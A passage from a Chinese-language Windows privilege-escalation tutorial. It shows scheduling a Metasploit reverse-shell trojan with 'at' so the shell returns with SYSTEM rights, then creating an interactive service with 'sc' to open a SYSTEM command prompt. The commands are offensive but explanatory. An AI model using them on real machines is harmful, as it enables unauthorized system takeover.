 #### 2.3.2.3. 设置反弹

这里在接收到msf木马反弹回来的shell后，进入shell后执行下面的命令。

```
at 11:11 C:\111\shell.exe
```

![image-20230327114238622](assets/VsboEXHxqv6dcy3.png)

#### 2.3.2.4. 查看反弹效果

通过另外再启动一个监听端口的，来查看新反弹回来的权限是什么，可以看到到11点11分的时候执行shell.exe，反弹回来的就是system权限。

```
getuid
```

![image-20230327114624049](assets/HCgc2Rn5VxdAIpD.png)

# 3. sc本地命令提权

sc是用于与服务控制管理器和服务进行通信的命令行程序，提供的功能类似于控制面板中管理工具项中的服务。

## 3.1. 适用范围

网上说在windows 7/8，Windows server2003、2008、2012、2016上都能使用，这里的都能只适用于sc这条命令本身。

而利用sc进行提权，通过测试，目前好像只有2003可以。

## 3.2. 命令使用

```
sc Create systemcmd binPath= "cmd /K start" type= own type= interact  #其中systemcmd是服务名称，大家可以随意填写，binpath是启动的命令，type=own是指服务这个服务属于谁，type=interact，cmd/k start 这个命令，这个命令就是启动一个新的cmd窗口。
sc start syscmd     ###启动服务！
```

## 3.3. 操作步骤

这里就是先执行第一条命令，然后在执行第二条命令即可，这里我执行失败是由于我之前已经测试过了，正常情况下应该是第一条命令执行后显示成功。第二条就是这样的，这不不受之前测试的影响。
